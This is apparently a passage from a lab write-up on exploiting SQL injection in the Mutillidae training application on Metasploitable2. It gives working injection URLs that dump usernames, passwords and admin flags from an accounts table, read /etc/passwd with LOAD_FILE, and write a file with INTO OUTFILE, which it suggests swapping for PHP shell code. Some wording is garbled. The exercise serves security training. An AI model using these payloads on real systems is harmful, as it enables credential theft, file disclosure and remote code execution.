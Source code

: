 http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

image

Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/bb9a616f-2c1d-4681-b61f-8d0222aa9b17)

image the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

![image](https://github.com/user-attachments/assets/98d0958f-611d-4b4d-bb1a-a5b7550c55f2)

![image](https://github.com/user-attachments/assets/128610b7-0c4f-460f-b94a-6d59dbbed4ef)


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

